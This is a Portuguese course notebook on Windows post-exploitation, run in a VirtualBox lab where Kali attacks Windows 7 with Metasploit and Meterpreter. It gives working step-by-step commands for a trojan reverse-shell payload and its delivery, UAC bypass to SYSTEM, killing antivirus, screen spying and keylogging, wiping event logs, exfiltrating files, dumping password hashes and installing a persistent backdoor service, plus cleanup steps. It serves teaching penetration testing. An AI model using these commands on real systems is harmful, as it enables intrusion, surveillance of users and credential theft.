# 🎯 Caderno de Resumos: Pós-Exploração em Sistemas Comprometidos

> **Disciplina:** Pós-Exploração em Sistemas Comprometidos  
> **Laboratório:** Kali Linux (`192.168.56.102`) atacando Windows 7 (`192.168.56.105`) com Metasploit & Meterpreter

---

## 🚪 Aula 1: Escalonamento de Privilégios no Windows

### 1. O que é Pós-Exploração?
* **Definição:** Conjunto de todas as ações, técnicas e táticas executadas por um auditor ou invasor **após a abertura de uma sessão ativa** no alvo.
* **O que é uma Sessão?** É um canal interativo de comunicação (*shell*) estabelecido após uma invasão bem-sucedida ou ataque de força bruta. Pode ser:
  * Uma **Shell Padrão** do sistema operacional (`cmd.exe` ou `/bin/bash`).
  * Uma sessão avançada do **Meterpreter** (injetada na RAM, com dezenas de ferramentas forenses e de comando integradas).

### 2. O Fluxo de Operação de um Pentest (Ciclo de 10 Fases)
Estamos agora atuando diretamente nas fases **5 (Exploitation)** e **6 (Post Exploitation)** do ciclo de testes de intrusão:



```mermaid
%%{init: {'theme': 'base', 'themeVariables': { 'primaryColor': '#ffffff', 'edgeLabelBackground':'#ffffff', 'tertiaryColor': '#ffffff'}}}%%
flowchart LR
    S1["1. Setup"] --> S2["2. Discovery"]
    S2 --> S3["3. Enumeration"]
    S3 --> S4["4. Detection"]
    S4 --> S5["5. Exploitation<br>(Invasão)"]
    S5 --> S6["6. Post Exploitation<br>(Escalonamento / C2)"]
    S6 --> S7["7. Reporting"]
    S7 --> S8["8. Read-Out"]
    S8 --> S9["9. Remediation"]
    S9 --> S10["10. Final Testing"]

    style S5 fill:#ffffff,stroke:#ef4444,stroke-width:2px,color:#000000
    style S6 fill:#ffffff,stroke:#8b5cf6,stroke-width:3px,color:#000000
    style S1 fill:#ffffff,stroke:#64748b,stroke-width:1px,color:#000000
    style S2 fill:#ffffff,stroke:#64748b,stroke-width:1px,color:#000000
    style S3 fill:#ffffff,stroke:#64748b,stroke-width:1px,color:#000000
    style S4 fill:#ffffff,stroke:#64748b,stroke-width:1px,color:#000000
    style S7 fill:#ffffff,stroke:#64748b,stroke-width:1px,color:#000000
    style S8 fill:#ffffff,stroke:#64748b,stroke-width:1px,color:#000000
    style S9 fill:#ffffff,stroke:#64748b,stroke-width:1px,color:#000000
    style S10 fill:#ffffff,stroke:#64748b,stroke-width:1px,color:#000000
```

---

### 3. Escalonamento de Privilégios (*Privilege Escalation*)
* **Conceito:** A arte de elevar os privilégios operacionais a partir do ponto de entrada inicial (geralmente uma conta de usuário padrão ou de serviço com permissões restritas) até o nível de controle irrestrito: **Administrador**, **root** ou **NT AUTHORITY\SYSTEM**.
* **Objetivo:** Contornar restrições de permissão para ler senhas na memória (SAM / LSASS), desligar antivírus/EDR, exfiltrar bases de dados confidenciais e estabelecer persistência duradoura.



```mermaid
%%{init: {'theme': 'base', 'themeVariables': { 'primaryColor': '#ffffff', 'edgeLabelBackground':'#ffffff', 'tertiaryColor': '#ffffff'}}}%%
flowchart LR
    Rec["1. Reconhecimento"] --> Exploit["2. Exploração Inicial<br>(SQLi / Web App / Phishing)"]
    Exploit --> User["3. Acesso Inicial<br>(Usuário Comum / Aplicação)"]
    User --> Hash["4. Quebra de Hashes / Falhas Locais"]
    Hash --> Elevate["5. Escalonamento de Privilégios<br>(Bypass UAC / Kernel Exploit)"]
    Elevate --> Root["6. Controle Total<br>(SYSTEM / Root)"]

    style Rec fill:#ffffff,stroke:#3b82f6,stroke-width:1px,color:#000000
    style Exploit fill:#ffffff,stroke:#f59e0b,stroke-width:1px,color:#000000
    style User fill:#ffffff,stroke:#64748b,stroke-width:1px,color:#000000
    style Hash fill:#ffffff,stroke:#eab308,stroke-width:1px,color:#000000
    style Elevate fill:#ffffff,stroke:#ef4444,stroke-width:2px,color:#000000
    style Root fill:#ffffff,stroke:#8b5cf6,stroke-width:3px,color:#000000
```

---

### 4. Laboratório Prático: Invasão, Migração de Processo e Bypass UAC

#### Passo 1: Iniciar o Ouvinte no Kali (`msfconsole`)
Por que usar o `multi/handler`?
> O `exploit/multi/handler` é o ouvinte (*listener*) universal do Metasploit projetado especificamente para capturar conexões reversas originadas de payloads autônomos (gerados via `msfvenom` ou executáveis de trojan), mantendo o canal C2 aberto assim que a vítima executa o arquivo.

```bash
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.56.102
set LPORT 4444
run
```

#### Passo 2: Execução no Windows 7 e Validação Inicial
A vítima clica no arquivo trojan `Update.exe`. Ao abrir a sessão no Kali:
```bash
# Validar IP da máquina conectada (deve apontar para .105)
ipconfig

# Verificar o diretório onde o arquivo foi executado
pwd
# Exemplo: C:\Users\vitor\Desktop

# Listar os arquivos locais
ls -l
```

#### Passo 3: Reconhecimento de Sistema e Usuário
```bash
# Informações completas do SO (versão, arquitetura x86/x64, idioma)
sysinfo

# Descobrir sob qual usuário estamos rodando no momento
getuid
# Saída: vitor-PC\vitor (usuário comum do Windows, sem privilégios máximos)

# Identificar o Process ID (PID) do executável atual
getpid
# Exemplo: Current pid: 2640
```

> **⚠️ Risco de Fechamento de Sessão:**  
> Se o usuário abrir o Gerenciador de Tarefas e finalizar o processo `Update.exe` (PID 2640), a sessão cai imediatamente!

#### Passo 4: Migração de Processo em Memória (`migrate`)
Para garantir estabilidade e ocultação, migramos o Meterpreter para um processo nativo do Windows que nunca fecha (ex: a barra de tarefas e área de trabalho `explorer.exe`):

```bash
# Listar processos ativos e seus respectivos PIDs
ps

# Localizar o explorer.exe (exemplo de PID: 2024) e injetar o Meterpreter nele
migrate 2024
```
*Após a migração, mesmo se o executável `Update.exe` for apagado ou fechado, o acesso permanece ativo dentro do `explorer.exe`.*

#### Passo 5: Inspeção da Linha de Comando do Windows e Privilégios
```bash
# Abrir o shell nativo do Windows a partir do Meterpreter
shell
# Prompt muda para: C:\Windows\system32>

# Consultar o usuário atual no Windows
whoami
# Saída: vitor-pc\vitor

# Checar privilégios administrativos concedidos ao usuário
whoami /priv
# Quase todos os privilégios administrativos aparecem como "Disabled" devido ao UAC!

# Sair do shell nativo e voltar ao Meterpreter
exit
```

---

### 5. Contornando o UAC (*User Account Control*)

#### O que é o UAC?
O **User Account Control (UAC)** é o recurso de segurança do Windows que força contas pertencentes ao grupo de Administradores a rodarem programas com privilégios reduzidos de usuário comum, exibindo aquela tela de confirmação ("Deseja permitir que este programa faça alterações?") sempre que uma ação requer privilégios elevados.

Se tentarmos rodar o comando direto `getsystem` no Meterpreter com o UAC ativo, o comando falha porque o Windows bloqueia a escalada não autenticada.

#### Passo 6: Pesquisa e Configuração do Módulo de Bypass
```bash
# Colocar a sessão 1 em segundo plano (sem fechá-la)
background
# (ou pressione Ctrl + Z)

# Pesquisar exploits locais disponíveis para burlar o UAC
search uac

# Selecionar o módulo clássico de bypass
use exploit/windows/local/bypassuac

# Visualizar parâmetros necessários
show options
```

Por que usamos novamente o payload `windows/meterpreter/reverse_tcp`?
> Porque o bypass do UAC criará um **novo processo com privilégios elevados** na máquina vítima, e esse novo processo precisa abrir uma **nova conexão reversa** de volta para o Kali. Mantemos o mesmo payload para garantir compatibilidade com o handler e a arquitetura do Meterpreter.

O que significa o comando `show targets`?
> O `show targets` lista os alvos e arquiteturas de compilação compatíveis com aquele exploit específico. Exibe `0: Windows x86` e `1: Windows x64`, garantindo que o payload seja compilado na arquitetura correta do sistema operacional vítima (neste laboratório, `0: Windows x86`).

#### Passo 7: Configurar e Disparar o Bypass UAC
```bash
# Definir o payload
set payload windows/meterpreter/reverse_tcp

# Definir o alvo x86
set TARGET 0

# Definir o IP do Kali
set LHOST 192.168.56.102

# Definir uma nova porta livre para esta segunda conexão
set LPORT 6969

# Apontar para a sessão Meterpreter original que está em background
set SESSION 1

# Disparar o exploit
exploit
```

#### Passo 8: Análise Linha a Linha da Execução Bem-Sucedida



* **Linha 1:** `[*] Started reverse TCP handler on 192.168.56.102:6969`  
  *O Metasploit abre o novo ouvinte na porta dedicada 6969 aguardando o canal elevado.*
* **Linha 2:** `[*] UAC is Enabled, checking level...`  
  *O exploit faz uma checagem ativa no registro do Windows para identificar o nível do UAC configurado.*
* **Linha 3:** `[+] UAC is set to Default`  
  *Detecta que o UAC está na configuração padrão (vulnerável ao bypass por dll hijacking/auto-elevation).*
* **Linha 4:** `[+] BypassUAC can bypass this setting, continuing...`  
  *Confirmação de que o algoritmo do exploit é capaz de sobrepor a restrição do sistema.*
* **Linha 5:** `[+] Part of Administrators group! Continuing...`  
  *Valida que o usuário alvo pertence ao grupo local de Administradores (requisito para elevar para privilégio total).*
* **Linha 6 e 7:** `[*] Uploaded the agent to the filesystem.... [*] Uploading the bypass UAC executable...`  
  *O exploit envia temporariamente para a máquina o arquivo que induzirá o processo administrativo elevado do Windows a carregar a carga.*
* **Linha 8 e 9:** `[*] Meterpreter stager executable 73802 bytes long being uploaded.. [*] Sending stage (175686 bytes) to 192.168.56.105`  
  *O Stager é injetado e solicita o download do Meterpreter com token administrativo desimpedido.*
* **Linha 10:** `[*] Meterpreter session 2 opened (192.168.56.102:6969 -> 192.168.56.105:49161)`  
  *Sucesso absoluto: uma nova sessão Meterpreter interativa (Sessão 2) é estabelecida livre das travas do UAC.*

---

### 6. Escalonamento Definitivo para `NT AUTHORITY\SYSTEM`

Agora que estamos em um processo livre da restrição do UAC:

```bash
# Caso precise verificar ou alternar entre sessões ativas
background
sessions
# Selecionar a sessão recém-criada sem restrições
sessions 2

# Obter autoridade máxima de sistema operacional
getsystem
# Saída: ...got system via technique 1 (Named Pipe Impersonation).

# Conferir a identidade
getuid
# Saída: NT AUTHORITY\SYSTEM (Privilégio Máximo do Windows!)
```

#### Validação de Privilégios no Shell Nativo:
```bash
shell
whoami
# Saída: nt authority\system

whoami /priv
# Todos os privilégios do Windows (SeDebugPrivilege, SeTcbPrivilege, SeBackupPrivilege, etc.) 
# agora aparecem explicitamente como "Enabled" (Ativos).
```
*Com esses privilégios, o auditor possui controle completo: pode despejar as senhas em hash do arquivo SAM (`hashdump`), desativar o Windows Defender, criar novos usuários administradores ou movimentar-se lateralmente na rede.*

---

## 🕵️ Aula 2: Extração de Dados e Exfiltração com Metasploit

### 1. Cenário e Objetivos
* **Objetivo:** Uma vez com a sessão aberta e com privilégios elevados (`NT AUTHORITY\SYSTEM`), o foco da pós-exploração passa a ser **manter o acesso**, **neutralizar defesas ativas**, **espionar o usuário** e **exfiltrar dados sensíveis** (estilo *Capture The Flag - CTF*).
* **Ambiente de Teste:** Sessão do Meterpreter ativa no Windows 7 a partir do Kali Linux.

---

### 2. Laboratório Prático: Desativação de Defesas, Espionagem e Exfiltração

#### Passo 1: Desligar o Antivírus Local
Para evitar que módulos de pós-exploração e scripts sejam interrompidos:
```bash
meterpreter > run post/windows/manage/killav
```
*Este script de pós-exploração enumera a lista de processos do Windows e finaliza serviços e executáveis de antivírus e firewalls conhecidos.*

---

#### Passo 2: Espionagem de Tela em Tempo Real
Podemos acompanhar o que o usuário está visualizando no monitor:
* **Via VNC Remoto (Janela Gráfica Dedicada):**
  ```bash
  meterpreter > run vnc
  ```
  *Injeta um servidor VNC diretamente na memória do Windows e abre uma janela gráfica de controle remoto no Kali Linux.*
* **Via Navegador de Internet (Screenshare Web):**
  ```bash
  meterpreter > screenshare
  ```
  *Inicia uma transmissão contínua da tela da vítima renderizada em tempo real em uma página HTML local no navegador do Kali.*

---

#### Passo 3: Keylogger com Meterpreter (Captura de Teclas Digitadas)
O Meterpreter possui um *sniffer* de teclado embutido que monitora as chamadas de API do teclado (*GetAsyncKeyState / SetWindowsHookEx*).

> **🔗 Referência Cruzada:** O conceito de espionagem e monitoramento de teclas por *keylogger* foi introduzido no [Módulo 05: Aula 4 — Adicionando Backdoor em um Executável](05-exploracao-vulnerabilidades-metasploit.md#3-principais-tipos-de-ataques-realizados-após-instalação-de-backdoor).

```bash
# 1. Iniciar o sniffer e a captura de teclas em segundo plano
meterpreter > keyscan_start
# Saída: Starting the keystroke sniffer ...

# 2. Despejar (ler) tudo o que a vítima digitou até o momento
meterpreter > keyscan_dump
# Exibe senhas, e-mails, conversas e textos digitados pelo usuário da VM

# 3. Encerrar a captura de teclas
meterpreter > keyscan_stop
# Saída: Stopping the keystroke sniffer ...
```

---

#### Passo 4: Limpeza de Rastros e Evidências (`clearev`)
O Windows registra todas as conexões, logins, acessos a arquivos e erros nos **Visualizadores de Eventos** (*Event Logs* do Windows: Application, Security, System).

```bash
meterpreter > clearev
# Saída:
# [*] Wiping 97 records from Application...
# [*] Wiping 415 records from System...
# [*] Wiping 312 records from Security...
```
> **⚠️ Requisito Mandatório:**  
> O comando `clearev` (*clear evidences*) **só funciona com sucesso se você tiver escalonado os privilégios para `NT AUTHORITY\SYSTEM`** (como demonstrado na [Aula 1 deste caderno](#6-escalonamento-definitivo-para-nt-authoritysystem)), pois usuários normais do Windows não têm permissão para apagar os registros do log de Segurança do sistema.

---

#### Passo 5: Busca por Arquivos e Alvos de CTF (`search`)
Para localizar o arquivo contendo a bandeira (*flag*) ou documentos confidenciais na máquina alvo:

```bash
meterpreter > search -d C:\\Users -f *.txt
```
* **`search`**: Comando de varredura no sistema de arquivos da máquina remota.
* **`-d C:\Users`**: Define o diretório inicial de pesquisa (neste caso, toda a pasta de usuários do Windows).
* **`-f *.txt`**: Filtro de busca com caractere curinga (procura qualquer arquivo com extensão `.txt`).
* *Retorno esperado:* Localiza o arquivo em `C:\Users\vitor\Documents\flag.txt`.

---

#### Passo 6: Download e Exfiltração de Dados (`download`)
Após localizar o arquivo confidencial, fazemos o download da máquina vítima para a pasta atual do Kali:

```bash
meterpreter > download C:\\Users\\vitor\\Documents\\flag.txt
# Saída:
# [*] downloading: C:\Users\vitor\Documents\flag.txt -> flag.txt
# [*] download : C:\Users\vitor\Documents\flag.txt -> flag.txt
```

---

#### Passo 7: Envio de Arquivos para o Alvo (`upload`)
Para transferir scripts, ferramentas ou binários maliciosos do atacante para o alvo:

1. **Conferir o diretório local do Kali:**
   Coloque a sessão temporariamente em segundo plano para confirmar onde o arquivo `testeupload.txt` está:
   ```bash
   meterpreter > background
   msf6 > ls
   # Confirme que testeupload.txt está na pasta atual do terminal
   msf6 > sessions -i 2
   # Volta para a sessão do Meterpreter
   ```

2. **Enviar o arquivo para o Windows 7:**
   ```bash
   meterpreter > upload testeupload.txt C:/Users/vitor/Documents
   # Saída:
   # [*] uploading : testeupload.txt -> C:/Users/vitor/Documents\testeupload.txt
   # [*] uploaded : testeupload.txt -> C:/Users/vitor/Documents\testeupload.txt
   ```

3. **Validação:**
   Acessando o Windows 7 e abrindo a pasta `Documentos` do usuário `vitor`, o arquivo `testeupload.txt` estará gravado e disponível no disco da vítima.

---

## 🧰 Aula 3: Módulos Avançados de Pós-Exploração no Metasploit

### 1. Categorias de Módulos de Pós-Exploração (`post/`)
Os módulos do tipo `post` no Metasploit são scripts padronizados executados sobre uma sessão já existente (`SESSION`). Dividem-se em 4 grandes grupos:
* **Extract Credentials:** Coleta de senhas em memória, chaves Wi-Fi, credenciais salvas em navegadores e hashes do SAM.
* **Privilege Escalation:** Elevação de privilégios locais contornando UAC, explorando falhas de kernel ou permissões de serviços.
* **Information Gathering (Reconhecimento):** Descoberta de ambiente (VM vs Físico), compartilhamentos de rede (*shares*), aplicações instaladas, histórico recente do usuário e varredura ARP interna.
* **Spy / Capture:** Módulos de espionagem contínua como captura de tela, áudio do microfone, sniffer de tráfego e gravação de teclado (*keylogger*).

---

### 2. Laboratório Prático: Varredura Forense e Reconhecimento com Módulos `post`

Para executar os módulos, a sessão do Meterpreter é colocada em segundo plano com `background` (ou `Ctrl + Z`).

---

#### Módulo 1: Migração Automatizada de Processo (`post/windows/manage/migrate`)
Em vez de migrar manualmente digitando o PID, este módulo cria automaticamente um novo processo legítimo do Windows (ex: `notepad.exe`) e migra o Meterpreter para dentro dele de forma invisível:

```bash
msf6 > use post/windows/manage/migrate
msf6 post(windows/manage/migrate) > show options
msf6 post(windows/manage/migrate) > set SESSION 1
msf6 post(windows/manage/migrate) > run
```



*Análise da Execução:*
* O Metasploit identifica o processo atual (`Current server process: apoWMBWBJeW.exe (860)`).
* Inicializa um processo limpo do Bloco de Notas: `Spawning notepad.exe process to migrate into`.
* Aplica spoofing de identificador de processo pai: `Spoofing PPID 0`.
* Conclui a injeção em memória com sucesso no PID 1324: `[+] Successfully migrated into process 1324`.

---

#### Módulo 2: Detecção de Máquina Virtual / Sandbox (`post/windows/gather/checkvm`)
Permite saber se o alvo é uma máquina virtual ou um computador físico (essencial para saber se estamos em um ambiente real ou em um ambiente de armadilha/sandbox de análise de malware):

```bash
msf6 > use post/windows/gather/checkvm
msf6 post(windows/gather/checkvm) > set SESSION 2
msf6 post(windows/gather/checkvm) > run
```



*O módulo inspeciona registradores da CPU, BIOS e drivers de vídeo/rede e confirma: `[+] This is a VirtualBox Virtual Machine`.*

---

#### Módulo 3: Enumeração de Compartilhamentos de Rede (`post/windows/gather/enum_shares`)
Identifica pastas locais compartilhadas via rede SMB/Windows que podem ser alvos para movimentação lateral ou injeção de arquivos maliciosos:

```bash
msf6 > use post/windows/gather/enum_shares
msf6 post(windows/gather/enum_shares) > set SESSION 2
msf6 post(windows/gather/enum_shares) > run
```



*Identifica a pasta compartilhada `Users`, indicando que diretórios de usuários da rede estão acessíveis para exploração.*

---

#### Módulo 4: Enumeração de Aplicações Instaladas (`post/windows/gather/enum_applications`)
Lista todos os softwares instalados na máquina vítima consultando o registro do Windows (`HKLM\Software\Microsoft\Windows\CurrentVersion\Uninstall`):

```bash
msf6 > use post/windows/gather/enum_applications
msf6 post(windows/gather/enum_applications) > set SESSION 2
msf6 post(windows/gather/enum_applications) > run
```
*Gera um inventário completo de versões de softwares instalados e salva os dados na base de evidências (*loot*) do Metasploit:*  
`Results stored in /home/vitor/.msf4/loot/[timestamp]_default_192.168.56.105_host.application_[...].txt`. Com essas versões, o auditor pesquisa falhas e exploits específicos para cada aplicativo detectado.

---

#### Módulo 5: Extração de Histórico e Arquivos Recentes (`post/windows/gather/dumplinks`)
Lê e extrai todos os atalhos (`.lnk`) de arquivos recentes abertos pelo usuário da pasta `AppData\Roaming\Microsoft\Windows\Recent`:

```bash
msf6 > use post/windows/gather/dumplinks
msf6 post(windows/gather/dumplinks) > set SESSION 2
msf6 post(windows/gather/dumplinks) > run
```



*O módulo extrai os atalhos recentemente acessados pela vítima (`flag.lnk`, `Imagens.lnk`, `Sem título.lnk`, `testeupload.lnk`), revelando hábitos de trabalho, pastas confidenciais e atividades recentes.*

---

#### Módulo 6: Varredura de Rede Interna via ARP (`post/windows/gather/arp_scanner`)
Usa a máquina vítima como pivô para mapear outros computadores na mesma sub-rede local através de requisições ARP:

```bash
msf6 > use post/windows/gather/arp_scanner
msf6 post(windows/gather/arp_scanner) > set SESSION 2
msf6 post(windows/gather/arp_scanner) > set RHOSTS 192.168.56.1/24
msf6 post(windows/gather/arp_scanner) > run
```
*Varre todo o segmento de rede `192.168.56.0/24`, listando endereços IP e MAC de outros servidores, impressoras e estações de trabalho para futura movimentação lateral.*

---

#### Módulo 7: Sugestor Automático de Exploits Locais (`post/multi/recon/local_exploit_suggester`)
Analisa a arquitetura do SO, versão do kernel, patches de atualização (KBs) ausentes e compara com a base do Metasploit, recomendando todos os exploits locais aplicáveis para escalonamento de privilégios:

```bash
msf6 > use post/multi/recon/local_exploit_suggester
msf6 post(multi/recon/local_exploit_suggester) > set SESSION 2
msf6 post(multi/recon/local_exploit_suggester) > set SHOWDESCRIPTION true
msf6 post(multi/recon/local_exploit_suggester) > run
```
*Gera uma lista qualificada de vulnerabilidades que podem ser exploradas imediatamente na máquina para obter controle total.*

---

### 3. Automação com Scripts de Recursos do Metasploit (`.rc`)
Scripts `.rc` (*Resource Scripts*) automatizam a execução de comandos repetitivos no Metasploit, funcionando como arquivos de lote (*batch/bash*) para o `msfconsole`.

#### Passo a Passo de Criação:
No terminal do Kali Linux (fora do Metasploit):
```bash
nano meterpreter.rc
```

Conteúdo do script:
```text
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 192.168.56.102
set lport 6969
exploit -z
```
* **`exploit -z`**: Dispara o ouvinte e, ao receber a conexão, coloca a sessão criada imediatamente em segundo plano (*background*), deixando o terminal livre para novos comandos.

#### Executando o Script de Recursos:
```bash
msfconsole -r meterpreter.rc
```



*O console carrega os comandos em sequência, configura os parâmetros e aguarda a conexão de forma 100% autônoma.*

---

## 🔄 Aula 4: Persistência de Sessão com Metasploit (`persistence_service`)

### 1. O que é Persistência e por que é necessária?
* **O Problema:** Em ataques convencionais, se a vítima reiniciar o computador, deslogar da conta ou finalizar o processo, a sessão reversa do Meterpreter é perdida imediatamente. Dificilmente o usuário clicará no arquivo malicioso (`Update.exe`) toda vez que ligar o computador.
* **A Solução:** Instalar um mecanismo de **persistência** (*Persistence*). O Metasploit injeta um binário no disco e o registra como um **Serviço do Windows** com inicialização automática (`Automatic`), garantindo que toda vez que o sistema operacional der boot, o próprio Windows inicie o backdoor e chame o Kali de volta.

---

### 2. Laboratório Prático: Criando Persistência via Serviço do Windows

#### Passo 1: Limpeza e Abertura da Sessão Base
```bash
# Encerrar todas as sessões anteriores abertas no msfconsole
msf6 > exit -y

# Abrir novo console
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.56.102
set LPORT 4444
exploit
```
*Na VM do Windows 7, executa-se o `Update.exe` para obter o acesso inicial. Assim que a conexão abrir, envie a sessão para segundo plano:*
```bash
meterpreter > background
```

#### Passo 2: Configurar o Módulo `persistence_service`
O módulo `exploit/windows/local/persistence_service` cria um executável de serviço permanente na pasta de arquivos temporários do usuário e registra um serviço nativo no Registro do Windows:

```bash
msf6 > use exploit/windows/local/persistence_service
msf6 exploit(windows/local/persistence_service) > set SESSION 1
msf6 exploit(windows/local/persistence_service) > set LHOST 192.168.56.102
msf6 exploit(windows/local/persistence_service) > set LPORT 2022
msf6 exploit(windows/local/persistence_service) > exploit
```



*Análise da Execução:*
* `[*] Started reverse TCP handler on 192.168.56.102:2022`: Abre ouvinte na porta dedicada `2022`.
* `[+] Meterpreter service exe written to C:\Users\vitor\AppData\Local\Temp\TXaby.exe`: Grava o binário permanente na pasta Temp do usuário.
* `[*] Creating service UENLFj`: Cria um serviço do Windows com nome aleatório para disfarce.
* `[*] Cleanup Meterpreter RC File: /home/vitor/.msf4/logs/persistence/.../VITOR-PC_....rc`: Gera automaticamente um script de limpeza para remover o serviço no futuro.
* `[*] Meterpreter session 3 opened (...)`: O serviço já inicia imediatamente e abre uma nova sessão.

---

### 3. Teste de Sobrevivência: Reiniciando a Vítima

1. Reinicie a máquina virtual do Windows 7 pelo menu Iniciar.
2. No Kali Linux, configure o ouvinte persistente na porta `2022`:
   ```bash
   msfconsole
   use exploit/multi/handler
   set payload windows/meterpreter/reverse_tcp
   set LHOST 192.168.56.102
   set LPORT 2022
   exploit
   ```
3. **Resultado:** Assim que o Windows 7 liga (mesmo na tela de login, antes do usuário digitar a senha), o serviço inicia e a sessão do Meterpreter é estabelecida automaticamente!
4. **Validação do Processo Ativo:**
   ```bash
   meterpreter > getpid
   # Retorna o PID atual do Meterpreter (ex: 1300)

   meterpreter > ps
   # Confirma que o PID 1300 corresponde exatamente ao serviço malicioso criado (TXaby.exe)
   ```

---

### 4. Como Excluir Todas as Brechas e Desfazer o Ataque (Cleanup)

Para restaurar a máquina alvo ao estado limpo original e remover todo o backdoor e serviço instalado:

#### Opção A: Pelo script de remoção gerado pelo próprio Metasploit (Mais rápido)
Durante a criação, o Metasploit registrou o caminho de um script `.rc` de limpeza. No Kali, basta rodar:
```bash
# Execute o arquivo de cleanup gerado no terminal do Kali
msfconsole -r /home/vitor/.msf4/logs/persistence/VITOR-PC_*/VITOR-PC_*.rc
```

#### Opção B: Manualmente via Linha de Comando (cmd / PowerShell no Windows com Admin)
1. Parar e deletar o serviço criado:
   ```cmd
   sc stop UENLFj
   sc delete UENLFj
   ```
2. Excluir o arquivo executável malicioso do disco:
   ```cmd
   del /f /q "C:\Users\vitor\AppData\Local\Temp\TXaby.exe"
   ```
3. Remover o arquivo original de infecção da Área de Trabalho:
   ```cmd
   del /f /q "C:\Users\vitor\Desktop\Update.exe"
   ```

---

### 5. Como Refazer o Ataque do Zero (Passo a Passo Rápido)

1. **Gerar executável:**  
   `msfvenom -p windows/meterpreter/reverse_tcp -a x86 --platform windows -f exe LHOST=192.168.56.102 LPORT=4444 -o Update.exe`
2. **Copiar para o Apache:**  
   `sudo cp Update.exe /var/www/html/ && sudo service apache2 start`
3. **Abrir ouvinte no Kali:**  
   `msfconsole -q -x "use exploit/multi/handler; set payload windows/meterpreter/reverse_tcp; set LHOST 192.168.56.102; set LPORT 4444; run"`
4. **Baixar e rodar no Windows 7:**  
   Acessar `http://192.168.56.102/Update.exe` e executar.
5. **Instalar a persistência (na sessão ativa):**  
   Colocar em `background`, carregar `use exploit/windows/local/persistence_service`, setar `SESSION 1`, `LPORT 2022` e rodar `exploit`.

---

## 💡 5 Exemplos Práticos Integrados (Pós-Exploração & Escalonamento de Privilégios)

1. **Extração de Hashes de Senhas Locais (Hashdump do SAM):** Com acesso `NT AUTHORITY\SYSTEM`, extrair os hashes NTLM de todas as contas locais para quebra offline:
   ```bash
   meterpreter > hashdump
   # Extrai as credenciais locais do registro SAM (Administrator, Guest, vitor, etc.)
   ```
2. **Coleta Automatizada de Credenciais e Informações com WinPEAS:** Script essencial para enumeração de caminhos de escalonamento local no Windows (serviços sem aspas, DLL hijacking):
   ```bash
   meterpreter > upload /opt/winPEAS/winPEASx86.exe C:\\Users\\vitor\\Desktop\\winpeas.exe
   meterpreter > execute -f winpeas.exe -i -H
   ```
